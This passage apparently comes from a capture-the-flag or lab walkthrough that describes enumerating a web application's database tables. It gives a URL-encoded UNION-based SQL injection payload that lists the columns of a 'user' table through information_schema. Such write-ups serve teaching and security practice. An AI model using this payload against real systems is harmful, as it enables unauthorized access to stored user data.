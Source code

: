 > I changed back to pretty tab, then all the table names can be viewed.
> I  checked 'user' table first
 
![](./IMG/40.png)

> The following payload will check all the columns in user table

```
100%20UNION%20SELECT%201,group_concat(column_name),3,4,5,6,7%20From%20information_schema.columns%20WHERE%20table_name=%27user%27;--%20-
```
![](./IMG/41.png)
